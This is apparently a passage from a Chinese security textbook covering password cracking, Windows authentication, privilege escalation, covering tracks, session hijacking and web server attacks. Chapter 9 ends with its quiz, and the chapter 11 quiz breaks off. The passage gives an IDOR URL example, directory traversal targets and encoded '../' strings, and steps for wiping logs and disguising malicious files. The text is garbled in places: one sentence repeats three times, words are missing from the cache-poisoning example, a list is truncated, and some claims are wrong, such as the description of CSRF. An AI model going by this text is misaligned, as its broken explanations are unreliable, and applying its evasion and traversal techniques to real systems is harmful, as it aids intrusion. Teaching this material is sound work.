3. **离线攻击**：彩虹表攻击、哈希破解等构成了离线攻击，这种破解不需要连接到实际实时系统即可完成。

回溯来看，2020 年最常用的密码是“123456”，其次是“123456789”、“picture1”、“password”和“12345678”。

## 现代系统中的密码存储

大多数处理用户凭证的信息系统都选择不以明文格式存储这些凭证，简单原因是：如果数据库被攻破，攻击者将非常容易获取用户凭证。事实上，大多数系统选择以单向哈希的形式存储用户密码，这种哈希是通过将明文密码通过加密函数生成的。单向哈希使得攻击者似乎无法破解并获取原始密码。

然而，这引出了一个问题：当正确的用户输入凭证后，系统将如何验证这些凭证？此问题的答案是，系统将通过相同的加密函数对输入的凭证进行处理并生成其哈希值。如果新生成的哈希值与存储的哈希值匹配，则该凭证被认为是正确的。

这里出现了一个边缘情况，因为哈希值受其能包含的字节数的限制，因此是一组有限的组合。然而，明文可以有几乎无限的组合。因此，两种明文组合在通过相同的加密函数处理时，可能会生成相同的哈希值。这被称为 `collision`（碰撞）。大多数加密函数的设计目标都是减少所有实际场景下的碰撞。


**图 9.4：** 密码哈希与匹配

然而，这引导我们进入非常有趣的场景，黑客一直在利用这种场景。对于单向哈希安全，不需要破解原始密码；只需要获取一个与原始密码通过加密函数生成相同哈希代码的明文。这听起来很枯燥，但考虑到有数 TB 的预计算哈希值映射可以直接与手头的哈希代码进行匹配，这是一种非常实用的方法。攻击者只需要确定加密函数，由于哈希值的长度或通过密码学分析，这通常非常简单。

然而，应该注意的是，这个过程通常并不简单。确定正确的因子以启动破解过程需要消耗大量的计算能力。如果存在错误尝试次数限制、IP 黑名单或 DOS 防御，可能会遇到进一步的挑战。需要注意的是，解密花费时间过长的密码可能会使其失去价值。

一种更常见的安全机制是 `salting`（加盐），即将明文与另一个被称为“盐”的值结合，然后对组合进行哈希处理。如果盐保持保密，这将使得破解函数更难获取原始明文。某些系统更进了一步，对计算出的哈希再次进行哈希，通常使用不同的加密函数以提供额外的安全性。当然，这可以根据所需的安全级别重复任意多次。

## 安全账户管理器

Windows 将用户凭证存储在 SAM 中，这实际上是一个数据库文件，用于在 Windows 系统上验证用户身份。凭证以哈希格式存储，并通常包含有关本地域、工作组及其用户的信息。该数据库在计算机启动时会作为后台进程自动运行。


**图 9.5：** SAM 文件示例

尽管 SAM 文件存在于 Windows 系统的 `C:\Windows\System32\config` 中，但在 Windows 运行时很难对其进行读取或编辑。许多密码破解器通过运行并行的操作系统（通常是热盘 CD）来访问 Windows 分区并复制 SAM 文件。一旦完成复制，就会使用哈希破解方法对 SAM 文件进行破解。事实证明，在性能良好的硬件上，SAM 文件可以在三到四小时内被破解。

### NTLM 认证

NTLM 是 Windows 系统中的一种认证协议，用于域内用户识别的挑战/响应机制。该协议包含在 Windows `Msv1_0` 中。该系统可以：

1. 联系域控制器进行认证，或者

    

    **图 9.6：** NTLM 挑战过程

2. 如果用户是本地用户时对本地密码库进行查找。

NTLM 认证包括：

1. **LM 认证协议：** 这是一个遗留协议。由于其字符集有限，密码很容易破解，因此已不再使用。
2. **NT-Hash 协议：** 这包括 NTLM、NTLMv1 和 NTLMv2。这些被认为比 LM 更安全。

### Kerberos 认证

Kerberos 是 Windows 的一种较新的认证协议，已取代 NTLM 客户端/服务器应用程序的默认认证协议。Kerberos 不使用挑战/响应机制，而是采用令牌机制在不安全的网络上提供安全认证。Kerberos 系统由密钥分发中心组成，客户端通过认证服务请求令牌，并通过票据授予服务获取令牌。在某些 Windows 版本中，域控制器充当密钥分发中心并使用活动目录存储信息。


**图 9.7：** Kerberos 认证

## 虹彩表

随着复杂性和加密函数数量的增加，黑客对哈希映射存储的需求呈指数级增长。另一方面，在运行时计算哈希意味着需要大量的处理能力，当然时间。


**图 9.8：** 虹彩表链

为了解决存储需求膨胀的问题并优化计算时间，使用了虹彩表。这些基本上是明文密码、预计算哈希值以及所用加密函数的集合，通常通过还原函数成链。链允许系统减少存储的组合数量，同时也增加了计算，因为系统现在需要在一定程度上进行实时计算。良好的虹彩表配置在空间权衡上实现了最佳值。

## 密码破解防御清单

对于个人用户：

1. 避免在多个应用程序中使用同一个密码。
2. 密码不是八卦。不要分享。
3. 避免使用字典词汇。
4. 避免存储密码。
5. 在设置或首次使用时更改默认应用程序密码。
6. 不要使用出生地、爱好、出生日期或手机号等个人身份标识信息作为密码。

对于系统管理员：

1. 实施严格的密码策略，该策略应包括字符强制要求、密码过期、尝试失败后锁定账户等。
2. 禁止使用常用短语/弱密码。
3. 定期进行系统和日志审计，以检查任何可疑活动。
4. 对密码实施强制破解保护。

## 权限提升

一旦攻击者进入系统，下一个逻辑步骤就是尝试访问重要资源、访问或或应用程序，或者更重要的是安装应用程序。通常情况下，进入系统的第一个切入点是通过权限最小或几乎没有权限的账户。为了访问重要资源，攻击者需要拥有访问这些资源的权限。例如，假设 Web 服务器是通过用户 `tomcat` 启动的。攻击者需要以 `tomcat` 用户身份登录，或者以其他对 Web 服务器目录具有权限的用户登录。权限可以是 `read`（读）、`write`（写）和 `execute`（执行），攻击者根据最终目标想要其中一个或多个权限。


**图 9.10：** Linux 权限矩阵

权限提升的阶梯通常从某些外部可访问应用程序的读访问用户开始，以攻击者获得所有者、`root` 或系统用户权限结束。

### 水平权限提升

如果用户能够访问系统中同一层级另一个用户的受限数据，则发生了水平权限提升。一个简单的例子是，由于简单的参数修改，员工能够查看另一员工的工资单。

假设该员工访问了公司门户网站，在浏览当前月工资单时显示了以下链接：

`https://www.example.com/employee/payslip/current?empId=AB12321`

在这里，`AB12321` 是员工 ID。现在，员工可以尝试将员工 ID 修改为其他员工的 ID，尝试获取其工资单。

`https://www.example.com/employee/payslip/current?empId=AB12221`

如果参数中更改值的链接有效，且用户能够查看另一个员工的记录，那么这就是成功的水平权限提升案例。

### 垂直权限提升

如果用户能够访问访问链中比当前用户更高的用户的权限，则发生了垂直权限提升。其目的是访问当前用户组无法访问的资源。例如，攻击者接管了一个普通应用程序账户并尝试获取 `root` 权限。Unix 系中的 `sudo` 命令是实现垂直权限提升的一个非常强大的工具。

在上述讨论的水平权限提升示例中，假设该链接用于访问个人资料，且用户能够访问系统管理员的资料，那么该用户不仅能够访问普通用户可使用的资源，还可以访问管理员角色权限，例如添加或删除用户。这将构成垂直权限提升。

### DLL 劫持

DLL 劫持是指 Windows 系统中的一种漏洞，恶意用户能够在系统上执行代码，特别是一个 `DLL` 文件。这通常可以通过劫持 Windows 加载 DLL 的用户搜索顺序来实现。例如，桌面应用程序遵循的加载顺序如下：

1. 如果内存中已加载了具有相同模块名的 `DLL`，则系统将使用该已加载的 DLL，无论它位于哪个目录。
2. 如果 `DLL` 在 Windows 版本的已知 DLL 列表中，系统将使用从注册表项 `KnownDLLs` 提取的已知 DLL 副本。
3. 应用程序加载的目录。
4. 系统目录。
5. windows 目录。
6. 当前目录。
7. 路径级目录（列在系统的 `Path` 变量中）。

如果访问 `DLL` 的应用程序以高权限运行，DLL 劫持的影响会加剧，甚至导致系统崩溃。

防止 DLL 劫持的一些常见防御机制包括执行防护、审计工具和对库加载的限制。

## 执行应用程序

一旦用户获得了系统访问权限，他们就会执行系统内的应用程序以实现各种目的，例如：

1. 创建后门以进行持续远程访问
2. 数据提取
3. 恶意活动，如用于勒索软件的远程文件加密
4. 进一步的攻击升级，如提升权限
5. 运行间谍软件
6. 远程访问系统/控制系统

### 远程执行工具

远程执行工具旨在让管理员远程安装、卸载或修复应用程序补丁。恶意用户也可以使用同一组工具在受侵害的系统上安装他们选择的应用程序。常用的远程执行工具包括 `PsExec`、`PDQ Deploy`、`WindRM` 等。


**图 9.11：** 用于远程执行的 PDQ Deploy

类似的工具也可用于监控和访问远程系统。键盘记录器和屏幕截取工具被用于定期转储系统活动，并供远程用户使用。远程访问木马也为为未来的访问创建后门方面表现良好。

另一种机制是在远程机器上启用 `SSH` 和 `SCP`，这反过来允许对机器进行远程访问。创建一个新用户来访问这些有助于保持访问不被察觉。

## 隐藏文件和掩盖踪迹

任何成功攻击中最重要的方面之一是尽可能地隐藏攻击，并对攻击本身提供最少的信息。这包括：

1. 清空访问日志，涉及删除应用程序和系统的访问日志。这需要对访问日志目录具有文件系统权限。
2. 清空由系统或特定应用程序生成的事件日志。在多次登录失败或其他异常系统活动的情况下，可能会生成事件日志。


**图 9.12:** Windows 事件查看器日志

3. 清空应用程序日志，这可能会暴露攻击向量或访问路径的存在。
4. 清空不再需要的攻击文件。这些包括在获取系统权限期间复制到受害者系统上的任何反 Shell 脚本或代码段。


**图 9.13:** 用于删除最近历史的 `MRU-Blaster` 应用程序

5. 对侵害系统上的攻击文件进行混淆，这涉及将恶意文件重命名为熟悉的系统文件，或更改文件扩展名为看似无害的扩展，或者仅通过操作查看属性来隐藏文件。


**图 9.14:** 简单 `JavaScript` 函数的代码混淆

6. 隐藏恶意应用程序的执行实例，以避免在用户检查系统上运行实例时被发现。这通常涉及绑定到系统进程或已知应用程序执行恶意应用程序。
7. 创建伪阳性导致系统生成过多的警报，使其陷入瘫痪。这为恶意应用程序制造了机会，使其与其他表面上的假性案例一起逃避检测或被忽略。
8. 清理包含最近访问数据的注册表项。

## 结论

我们在这里涵盖的关于访问控制和权限的理念构成了大多数攻击的基础，无论是单机系统还是复杂的云网络。黑客总是会寻找超出正常范围的信息或进程。因此，对权限和访问控制有清晰的理解是我们在随后的章节中也将继续构建的内容。

在概述了通用系统之后，我们现在来看会话和会话劫持的概念。这将加强访问管理的基础以及高效管理这些必要性，同时从整体以及结合特定应用程序的角度审视会话概念。

## 测试你的理解

1. **域控制器在 `Kerberos` 认证中可以兼密钥分发系统。**

    1. 正确
    2. 错误

2. **为了监控应用程序系统上的日志，你必须为支持团队创建一个 `SSH` 用户。创建该 `SSH` 用户需要以下哪些访问权限？**

    1. 对日志目录具有读、写、执行权限
    2. 对日志目录具有读取权限
    3. 对整个文件系统具有读取权限
    4. 对整个文件系统具有读取权限并对日志目录具有写入和执行权限

3. **哈希和减少循环用于以下哪些技术？**

    1. 隐写术
    2. 混淆
    3. 彩虹表
    4. 以上所有

4. **将恶意进程绑定到系统进程有助于：**

    1. 让攻击隐藏更久
    2. 为攻击利用最佳系统资源
    3. 减少恶意应用程序的内存占用
    4. 以上都不是

5. **密码存储应优选使用带盐的单向哈希而非加密。**

    1. 正确
    2. 错误

## 答案

1. **a**
2. **c**
3. **c**
4. **a**
5. **a**

# 第 10 章 会话劫持

## 引言

会话在计算中用于在两个实体之间建立通信流。双方同意参与会话的方法，并将其作为识别真实用户与非授权用户的标准安全实践，被广泛应用于各种协议和应用程序中。会话在应用程序中的采用也是是因为，一旦建立了会话，参与者就不再需要于每次执行通信时都进行身份验证。本章将带你了解黑客如何挑战会话中的安全理念，以获取应用程序和信息系统的访问权限。

## 结构

我们将在涵盖以下主题：

* 会话劫持概念
* 网络级劫持
* 应用级劫持
* 应对措施

## 目标

在本章结束时，你将掌握：

* 会话概念
* 劫持的类型
* 过程中使用的工具
* 针对劫持的应对措施

## TCP 和 Web 会话

计算中的会话是指实体之间的通信。请看下图：

```
(images/Figure-10.1.jpg)
```

**图 10.1：** `TCP` 会话

会会话，客户端-服务器通信通过以下参数建立：

* 消息的源地和目的地
* 通信中的序列号

在所有情况下，客户端-服务器会话都基于下图：

```
(images/Figure-10.2.jpg)
```

**图 10.2：** Web 会话

会话劫持是指在服务器察觉的情况下接管会话的行为。被劫持的会话可用于在受害者身上执行操作。

## 网络级劫持

网络级会话劫持旨在获取实体之间建立的会话。这对于 `TCP` 和 `UDP` 都是可能的。让我们先理解 `TCP` 会话是如何产生的以及攻击者到底利用了什么。

当客户端想要连接到服务器时，它发送一个 `SYN` 请求，告知其连接意图以及它将开始分段的序列号。

服务器如果存活，会响应 `SYN-ACK` 消息。`ACK` 表示已接收消息，`SYN` 传达服务器可能开始分段的序列。

该过程的最后一步是客户端发送给服务器的 `ACK` 消息，通知其已收到 `SYN-ACK` 消息。这完成了握手，通信得以建立。

### TCP 会话劫持

一旦建立了 `TCP` 会话，客户端-服务器通信完全依赖于以下参数来验证消息源：

* 消息的源地和目的地
* 通信中的序列号

因此，为了让攻击者获取 `TCP` 会话，攻击者需要：

* 与目标受害者处于同一个网络中
* 伪装成受害者的源，即伪造目标受害者正在通信的方。
* 识别通信中的当前序列号，并在恶意通信中继续使用相同的序列号。

在网络通信期间伪造 IP 地址，攻击者需要向接收者发送一个网络数据包，数据包中的源 IP 注入为需要伪造的机器的 IP 地址。

同样，一旦攻击者确定了正在使用的序列号，来自攻击者的 `TCP` 数据包将包含接收者预期的序列号，因此，应用程序的原始源将被踢出去。

```
(images/Figure-10.3.jpg)
```

**图 10.3：** `TCP` 头部

由于数据包是攻击者在其终端构建的，数据包中的 IP 伪造并不是大问题。问题在于识别序列号。对此有多种方法可以实现：

*   **暴力破解：** 尝试使用不同序列号的数据包，直到其中一个包收到响应。如果攻击者了解连接的存活时间，这可能会变得简单一些。
*   **网络嗅探：** 在这种情况下，攻击者扫描受害者发送和接收的网络数据包。通过分析 `TCP` 头部，攻击者可以轻松地确定序列号。这里的挑战在于嗅探数据包。这反可以通过控制受害者与服务器之间的流量流来实现，通常通过 `ARP Spoofing` 完成。


**图 10.4：** `ARP` 欺骗与数据包嗅探

一旦攻击者获取了正在使用的序列号，就可以使用多种机制执行网络会话劫持：

*   **`RST` 劫持：** 这涉及代表服务器向受害者发送一个 `RST` 包，使其认为服务器已关闭了连接。随后攻击者可以继续嗅探网络中来自服务器的数据包，并代表受害者向服务器发送伪造的回复和请求。

    

    **图 10.5：** `RST` 劫持

*   **盲目劫持：** 在攻击者无法嗅探流量的情况下，攻击者仍然可以发送带有暴力破解序列号的伪造请求。这有两个缺点：

    1. 攻击者无法查看来自服务器的响应。
    2. 如果不有条理地进行，暴力破解序列号需要数十亿种组合。

### UDP 劫持

如前所述，`UDP` 是一种无连接协议，因此其可靠性远低于对应的 `TCP/IP` 协议。`UDP` 连接基本上是一系列请求和响应。因此，攻击者只需确保在服务器的实际回复到达之前，发送了针对请求的伪造回复。在中间人攻击的情况下，攻击者必须确保拦截来自服务器的响应，并将自己的恶意数据包转发给客户端。


**图 10.6：** `UDP` 劫持

## 应用层会话劫持

Web 应用已成为互联网的一个突出的部分。随着业务向在线迁移，以及 Web 在每一个角落都变得触手可及，世界正日益在线化。每个用户的出现都带来了对用户级功能、权限和定制化的需求。为了满足这一需求，Web 应用拥有用户账户，帮助区分不同的用户。

这里的一个主要挑战是确保在用户的每一次 Web 交互中这些信息都可用。在深入研究之前，让我们先了解现代 Web 应用中权限身份验证和授权通常是如何工作的：

*   用户通过 Web 浏览器访问网站或访问移动应用程序。
*   网站或移动应用程序要求用户提供登录凭据以以访问定制化内容。
*   如果用户还没有凭据，通常有一个流程让用户注册凭据。
*   输入凭据后，这些凭据将通过 Web 服务传递到后端服务器进行验证。
*   如果凭据有效，服务将返回成功，并将用户重定向到高权限页面。

因此，总会有……

*   **中间人攻击：** 在这种情况下，攻击者拦截了请求而不仅仅是进行嗅探。拦截后，攻击者可以轻松地提取信息并将其用于恶意目的。

    

    **图 10.8：** 中间人攻击

*   **木马或恶意软件攻击：** 攻击者在受害者机器上执行或安装某些代码（通常是浏览器），用于捕获会话信息并将其传回攻击者。
*   **暴力破解攻击：** 如果用于生成会话 ID 的算法较弱，攻击者可能会分析模式并猜测有效的会话 ID。
*   **会话重放攻击：** 攻击者从受害者与服务器的交互中捕获有效的身份验证请求。现在，攻击者可以使用此请求并从其系统再次重放到服务器。服务器在收到正确的身份验证请求后，授予攻击者访问权限。

    

    **图 10.9：** 会话重放

*   **跨站攻击：** 攻击者在链接或超链接上附加一段代码（通常是 `JavaScript`）。链接随后转发给受害者，受害者在打开链接时无意中在其浏览器上执行附加在链接上的脚本。执行的代码可以执行各种任务，如打开后门或将所需信息发送回攻击者。

    

    **图 10.10：** 跨站攻击

*   **跨站请求伪造攻击：** `CSRF` 是跨站攻击更精细的版本，它要求攻击者感染受害者信任的网站。攻击者在链接或图像超链接上放置脚本。毫无防备的受害者点击链接，在不知情的情况下授予攻击者代码访问权限，从而窃取所需信息。

    

    **图 10.11：** 跨站请求伪造

*   **会话固定攻击：** 会话固定攻击是一种特殊的攻击类型，其中攻击者从服务器授权一个已知的会话 ID。这是通过攻击者向受害者发送目标网站链接以及可接受会话 ID 实现的。如果网站在身份验证时不创建新会话，而简单地将旧会话标记为已验证，那么攻击者会自动获得该会话的访问权限。

    

    **图 10.12：** 会话固定

## 会话劫持的防御措施

1. 使用 `HTTPS` 连接在网络上传输身份验证令牌，以减少窃听。
2. 为用户提供注销功能，以便手动结束会话。
3. 在特定未活动一段时间后使用户会话过期。
4. 如果可能，防止多个并发会话。
5. 对所有会话和身份验证令牌实施严格加密。
6. 创建随机且安全的会话令牌以防止暴力破解。
7. 在网络上使用防欺骗规则。
8. 使用针对 `ARP` 投毒的防御措施。
9. 尽可能使用 `IPsec` 协议进行安全通信。

**`Burp Suite`：** `Burp Suite` 是由 Portswigger 开发的流行的 Web 渗透测试工具包。借助其内置的请求拦截、检查和修改功能，我们可以轻松地捕获数据包并提取会话 ID 以用于伪造请求。`Burp Suite` 有两个版本：社区版和企业版。


**图 10.13：** `Burp Suite` 会话检查

**`OWASP-ZAP`：** 这是一个由开放 Web 应用安全项目维护的开源 Web 漏洞扫描器，为其旗舰项目之一。与 `Burp Suite` 类似，`OWASP-ZAP` 可用于拦截和检查请求，并使用其负载伪造新请求以执行会话劫持和其他许多攻击。


**图 10.14：** `OWASP-ZAP` 界面

## 结论

会话劫持是 Web 应用程序中最常见的安全漏洞之一。在本章中，我们看到了黑客拦截和操纵会话的各种层次。

在会话之后，现在我们将学习更多关于 Web 服务器攻击方法和 Web 应用程序服务器攻击的知识。这将完成涵盖 Web 应用程序及其托管环境的 Web 应用基础设施攻击循环。

## 测试你的理解

1. **会话固定发生在应用程序出现以下情况时：**

    1. 身份验证时不创建新的会话对象
    2. 身份验证时创建新的会话对象
    3. 注销时不创建新的会话对象
    4. 以上所有情况

2. **`TCP/IP` 的三次握手发生在以下顺序中：**

    1. `SYN -> ACK + RST -> FIN`
    2. `SYN -> ACK + FIN -> RST`
    3. `SYN -> ACK + SYN -> ACK`
    4. `RST -> ACK + FIN -> SYN`

3. **以下哪项不是 `TCP` 头部的一部分？**

    1. 确认号
    2. 填充
    3. 校验和
    4. 操作系统

4. **以下哪项不是脚本语言？**

    1. `JavaScript`
    2. `Perl`
    3. `Python`
    4. `Java`

5. **以下哪项是状态状态协议？**

    1. `TCP/IP`
    2. `UDP`
    3. a 和 b 都是
    4. 以上都不是

## 答案

1. **a**
2. **c**
3. **d**
4. **d**
5. **a**

# 第 11 章 Web 服务器攻击

## 引言

Web 应用程序构成了内网和互联网应用的大部分。无论是游戏计分网站还是企业级门户，Web 服务器都是 Web 应用的骨干。Web 应用程序从简单的、静态页面演变为全功能门户，这意味着 Web 服务器在处理能力、吞吐量也经历了进化。

## 结构

本章将涵盖以下主题：

* Web 服务器基础
* 攻击面
* 常见的 Web 服务器攻击
* Web 服务器攻击工具

## 目标

本章将引导你了解 Web 服务器的基础。我们将涵盖服务器的核心架构和工作原理、常见漏洞的识别与利用以及相关的工具。在本章结束时，你应该熟悉 Web 服务器的配置，能够识别不同的 Web 服务器实现，并对 `Burp Suite` 和 `Metasploit framework` 等常用工具的使用有良好的了解。

## Web 服务器

Web 服务器是管理网站及其与世界网交互的软件和硬件。在最原始的形式中，Web 服务器通过 `HTTP` 家族接收请求并提供 Web 页面和内容，主要是 `HTML`、`JavaScript` 和 `CSS`。主要的 Web 服务器包括 Apache Web 服务器、NGINX 服务器、Microsoft IIS 服务器等。

* 文件系统包含媒体文件、可下载文件等资源。
* 数据库包含更结构化的数据，用于通过交互向用户展示或从用户处收集。

这里需要的一个重要界限是应用服务器，它们通常被放置在 Web 服务器之后。应用服务器与 Web 服务器的主要区别在于它们所处理的内容和承担的任务。Web 服务器的设计初衷完全是为了处理来自 Web 的请求并高效地满足这些请求，而应用服务器则侧重于进程处理，并包含了应用程序的业务逻辑执行。

随着服务器的演进，在某些情况下会采用混合配置将 Web 服务器和应用服务器合并到一个系统中；这是一种取决于具体的解决方案。此类服务器的一个示例是 `Apache Tomcat`，许多人使用它托管整个 Web 应用程序。然而对于大型应用程序，主流做法是使用独立的 Web 服务器和独立的应用服务器。

一个 Web 服务器托管多个网站也是完全可能的，每个网站在配置中都有自己的上下文路径。


**图 11.1:** Web 服务器交互

在明确了 Web 服务器的作用和重要性之后，让我们来看看为什么即使在所有的网络和硬件防护都到位的情况下， Web 服务器仍需要被特别考虑。

主要的关注点在于，对于大多数面向 Web 的应用程序，Web 服务器是与外部环境交互的首要和主要点。它可以被视为通往整个应用程序设置的门户。错误的配置不仅会暴露 Web 服务器，还会暴露底层的应用服务器和其他连接的基础。

另一个需要记住点是，Web 服务器向最终客户提供业务内容。因此，对其进行任何中断或破坏都会直接影响业务。想象一下电子商务公司的在线获客门户，它们高度依赖其网站来获取所有的业务线索。

此外还有数据隐私问题，配置中的缺陷为恶意用户留下了路径，使其能够收集用户凭据以及存储在底层服务器上的其他信息。

基于上述场景，Web 服务器可能被针对用于以下目的：

* 中断或拒绝服务
* 攻击底层服务器
* 收集用户信息库

攻击 Web 服务器通常需要大量的侦察和枚举技术来收集攻击面面信息。这些技术在之前的章节中已经讨论过。

让我们进入 Web 服务器在不同场景下面临的威胁：

 **死亡之 Ping**

`TCP/IP` 数据包的大小限制为 65,535 字节。死亡之 Ping 发送大于此限制的数据包，如果接收系统处理不当，可能会导致系统故障。要执行此类攻击，攻击者发送碎片数据包，这些数据包会在受害者端进行重组。

*   **拒绝服务攻击**：`DOS` 或拒绝服务攻击的目的是通过大量请求淹没目标服务器，导致服务器无法及时处理合法请求。这可能简单如攻击者对网站首页执行一次 `curl` 操作，或者对受害者的服务器 IP 执行 `ping of death`。

    一个 `DOS` 攻击听起来可能很简单。但从理论上讲，在大型服务器上执行这种攻击可能是困难的，原因非常简单：攻击系统需要具备优越配置，且网络能够支持攻击者发送请求的速率。这意味着攻击系统需要具备优越配置，且网络能够支持攻击者发送请求的速率。这意味着攻击系统需要具备优越配置，且网络能够支持攻击者发送请求的速率。

*   **目录遍历**：目录遍历旨在利用目录列表中的缺陷。攻击者可以使用 `../` 来访问 Web 目录之外的受限文件夹。

    第一步是识别渗透点和操作系统。


例如，如果攻击者对 `Linux` 有深入了解，他们可以访问 `/etc/httpd/httpd.conf` 等文件，或者从 `/etc/httpd/logs/access.log` 下载日志。

- **配置错误攻击**：此类攻击发生在服务器管理员使用服务器默认设置或遗漏某些配置时。

- 既属于请求也属于响应的 HTTP 头部，或者其值取决于请求参数或请求头部的头部，可以通过修改请求参数或头部进行修改。这可能导致各种攻击，如 HTTP 缓存投毒。

- 底层系统解析请求中的 HTTP 头部，直到返回一个空行。这是通过一个`回车符、换行符`（`CR-LF`）序列实现的。此行以下的所有内容均被视为响应体。攻击者可以利用此操纵用户与恶意的响应体进行交互，如 CRLF 头部注入攻击。

### 为了更好地理解这些攻击是如何实施的，让我们通过一个示例来分析它们：

攻击者（假设为 Bob）访问了网站 `abcxyz.com`。在进入首页时，网站要求 Bob 输入他当前的居住城市。居住在 Attackerland 的 Bob 输入了他的城市为 Attackerland。假设此操作被底层应用程序用于检测位置，并根据某些计算（例如位置评分）显示优惠。其交互过程如下所示：

1. 用户在网页浏览器中输入位置。
2. 位置参数被传递给 Web 服务器，由服务器将其传递给底层应用程序。
3. Web 服务器根据位置返回自定义的响应。

现在，假设底层应用程序按以下方式工作：

1. 接收到请求后，应用程序检查请求中的 `locationRating` 头部。如果没有找到，它将读取位置参数并从系统中获取匹配的 `locationRating`，将其放入响应头部中。
2. Web 服务器在传递此类响应时，本应缓存此类响应以加快处理速度。因此，Web 服务器会缓存该城市的位置到 `locationRating` 的响应，供后续请求使用。

观察几次请求-响应交互后，Bob 有了一个主意。他清除了浏览器缓存并再次访问 `abcxyz.com`。网站再次询问他的位置。这次，他将位置设置为 `OfferCity`，他怀疑该城市没有用户访问过网站。除了设置位置外，Bob 还拦截了请求并手动将 `locationRating` 头部设置为他之前为 Attackerland 收到的值，然后发送了修改后的请求。

Web 服务器在接收到请求后检查其缓存中的响应。由于响应尚未缓存，它将其转发给应用程序。应用程序读取头部并发现其中已经存在 `locationRating` 头部。现在，应用程序的设计可能有以下两种方式之一：

1. 验证其接收并转发的头部，在这种情况下，已存在的头部会被拒绝。
2. 直接转发头部，这将允许头部按原样传递到响应中。

假设 `abcxyz.com` 的开发者没有对头部转发设置任何验证，应用程序将把 Bob 设置的 `locationRating` 头部转发给其 Web 服务器，该服务器现在将：

1. 为 `OfferCity` 缓存此响应。
2. 在响应中返回被操过的头部。

Bob 在接收到此响应后，知道攻击成功了，因为 `abcxyz.com` 为 `OfferCity` 返回的自定义内容与 Attackerland 的相同，因为 `OfferCity` 的 `locationRating` 被设置为与 Attackerland 的 `locationRating` 相同的值。


**图 11.2.1:** HTTP 头部注入

为了验证该攻击，Bob 再次清除浏览器缓存并导航到 `abcxyz.com` 的首页。网站询问位置，Bob 输入了 `OfferCity`。网站仍然显示 Attackerland 的自定义内容。这就是缓存投毒攻击的样子。

现在，假设 Bob 决定更进一步，通过在网站访问者的浏览器上执行脚本来进一步修改响应。为此，他再次想要设置头部值。由于 `OfferCity` 和 Attackerland 的缓存已经设置，Bob 有两个选项：

- 访问网站。
- 访问另一个网站。

对于第一种策略，攻击者通过 注入 `locationRating` 头部。由于 会处理 Bob 注入的头部。

新的响应将包含 Bob 注入的脚本。

现在，由于脚本在缓存中，所有访问该网站的用户都会收到恶意的响应。在浏览器中打开时，脚本与 Bob 的计划一起执行。由于序列被操纵了，浏览器将 Bob 注入的头部内容视为响应体。


**图 11.2.2:** HTTP 头部注入

- **网站篡改**：网站篡改是通过更改元素来修改网站的显示元素的行为。这通常被黑客主义者用来推动某种社会议程或表达他们对网站业务立场的不满。网站篡改可以通过以下方式实现：
    - 访问发布服务。
    - 访问 Web 服务器的文件系统。
    - 注入攻击，如头部注入和 SQL 注入。

常见的攻击策略是将原始的显示内容（主要是 HTML 和 CSS）替换为攻击者的内容。

如果配置不安全，WordPress 等发布服务容易受到配置和枚举攻击。如果攻击者获取了登录凭据，他们对通过平台发布的整个网站属性具有虚拟控制权。

访问文件系统会导致攻击者向服务器上传自己的文件，这些文件可以是现有文件的替换，也可以是新文件。由于这些文件直接替换在 Web 服务器上，服务器将为请求提供这些文件，并随之产生恶意内容。

SQL 注入攻击针对数据库交互的漏洞。之前讨论的头部注入也可以用于。

- **DNS 服务器劫持**：DNS 服务器是网络最重要的部分之一。它帮助将 DNS 条目映射到实际地址，并提供易用的命名服务。然而，如果攻击者获取了操纵这些记录的权限，他们未经用户许可将网站流量重定向到任何其他网站。这可能导致两种结果：
    - 攻击者将流量重定向到执行恶意活动的网站。
    - 攻击者将流量重定向到钓鱼网站，使用户认为他们正在访问实际网站，并诱导他们提供个人和财务信息。

- 通过查询配置帮助查询大型数据集，增加 DNS 查询响应的尺寸。

- 同步发起分布式攻击以增加流量负载。

DNS 放大攻击的最终目标是用响应淹没受害者的服务器，从而阻碍其对合法请求的服务。

## Web 服务器黑客工具

用于 Web 服务器黑客攻击的工具分为两类：

- **足迹探测工具**，用于收集信息以构建攻击计划。这包括用于以下目的的工具：
    1. DNS 扫描
    2. 网络扫描
    3. 枚举

    在关于侦察和网络扫描的章节中已经讨论过 `Nmap`、`Whois`、`Telnet` 等工具。

- **攻击工具**，可以直接使用或通过修改来针对攻击计划测试 Web 服务器。这包括用于以下目的的工具：
    1. HTTP 请求操控
    2. 请求重放
    3. 密码破解工具

HTTP 请求操控和重放可以使用 `Burp Suite`、`OWASP ZAP`、`Charles` 等工具轻松完成。

`Burp Suite` 是一个自动数据包拦截、修改和重放工具，它是安全研究人员在处理应用程序交互时常用的工具之一。`PortSwigger` 提供了免费版。


**图 11.4:** Burp Suite

`Burp Suite` 在客户端系统利用代理接口来拦截流量。一旦拦截，就可以查看数据包内容、进行修改并将修改后的请求转发到服务器。此外，它可以设置为使用相同或修改后的参数重复请求。


**图 11.5:** Burp Suite 请求重放

`OWASP ZAP` 是由 OWASP 基金会维护的开源 Web 应用程序扫描器。它是动态 Web 应用程序脚本测试和模糊测试的最佳工具之一。


**图 11.6:** OWASP ZAP

`Metasploit` 项目提供了一个用于应用程序安全测试的高度便利的工具集。


**图 11.7:** Metasploit

`Metasploit` 的最大优势在于它是一个易于使用的攻击框架，包含了各种系统的已知漏洞信息和工具，并且可以通过简单命令调用，还可以自定义。


**图 11.8:** Metasploit 漏洞库

## 结论

现在，你应该对 Web 服务器的基础有了充分的了解。我们还讨论了用于 Web 服务器的各种攻击方法和工具。

然而，攻击者并不只想渗透你的 Web 服务器而不是托管在其上的应用程序。如果攻击的目标是获取信息或应用程序，那么 Web 服务器攻击应该是足够的。

下一章将深入讨论部署在这些 Web 服务器上的应用程序的黑客方法。

# 测试你的理解

1. **以下哪项不是 Web 服务器？**
    1. Apache Tomcat
    2. Microsoft IIS
    3. Google Chrome
    4. NGINX

2. **在生产环境中使用默认配置 Web 服务器是安全的。**
    1. 是
    2. 否

3. **以下哪项用于访问端口 22 的服务器？**
    1. SMTP
    2. SSH
    3. FTP
    4. SFTP

4. **以下哪项不是 HTTP 方法？**
    1. GET
    2. POST
    3. PATCH
    4. DELIVER

5. **Metasploit 可用于？**
    1. 发现 Web 服务器上的已知漏洞
    2. 使用已知漏洞执行攻击
    3. 枚举
    4. 以上所有

6. **DNS 劫持是指：**
    1. 攻击者修改 DNS 记录将用户重定向到恶意网站
    2. 攻击者劫持并关闭 DNS 服务器
    3. 攻击者对 DNS 服务器进行 DDoS 攻击
    4. 以上都不是

7. **以下哪种编码代表“`../`”序列？**
    1. `%2e%2e%2f`
    2. `..%2f`
    3. `%2e%2e/`
